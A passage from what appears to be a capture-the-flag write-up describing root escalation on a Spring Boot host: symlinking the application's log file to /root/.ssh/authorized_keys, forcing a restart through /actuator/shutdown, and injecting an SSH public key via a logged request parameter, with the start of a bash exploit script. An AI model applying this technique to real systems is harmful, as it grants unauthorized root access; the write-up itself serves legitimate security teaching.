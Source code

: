 Looks like it is working.

### But What To Write?

So we gained arbitrary file write as root but our application is writing a lot of _junk_, first we need a way to write into the our webservers stdout and second we need to find a place that writing to would give us admin access but the _junk_ generated by the web application doesn't matter.

Let's remember what our `Hello World` rest service was look like;

```
    @RestController
    //https://spring.io/guides/gs/rest-service/
    static class HelloWorldController {
        @RequestMapping("/")
        public String hello(@RequestParam(value = "name", defaultValue = "World") String name) {
            System.out.println(name);
            return String.format("Hello, %s!", name);
        }
    }
```

`System.out.println(name);` is writing what ever parameter we send as `name` to the standard output of the web application and we did test it before by sending `?name=Dking`, let's see if we can find that `Dking` string under `tomcatlogs`;

```bash
johnsmith@spring:~/tomcatlogs$ grep -r Dking
1700850088.log:Dking
1700850088.log:Dking
```

And it is here, so we can write anything we like into standard output.

Now the last thing we need to find the answer for is `where`? [authorized\_keys](https://en.wikibooks.org/wiki/OpenSSH/Client\_Configuration\_Files#\~/.ssh/authorized\_keys) is the best candicate because [openssh just skips the lines if it cannot parse the publickey.](https://github.com/openssh/libopenssh/blob/05dfdd5f54d9a1bae5544141a7ee65baa3313ecd/ssh/auth-rsa.c#L220)

### Root Flag

Let's update our script steps;

1. Create an ssh key if it does not exists,
2. Send a request to `/actuator/shutdown`,
3. Create symlinks to `/root/.ssh/authorized_keys` file in `/home/johnsmith/tomcatlogs/<epoch_time>.log`,
4. Application Stops,
5. Systemd kicks in and restarts the service,
6. Send a request to `Hello World` rest service with our public key,
7. Now our public key should be in authorized\_keys of root so we can just ssh as root

write it;

```bash
#!/bin/bash

#generate ssh key if it does not exists
[ -f ./key ] && true || ssh-keygen -b 2048 -t ed25519 -f ./key -q -N ""
#read public key
pubkey=$(cat ./key.pub)

#send a shutdown request to the spring boot server
curl -X POST https://localhost/actuator/shutdown -H 'x-9ad42dea0356cb04: 172.16.0.21' -k

#get date as epoch format
d=$(date '+%s')

#let's assume 30 seconds is enough to restart the service
```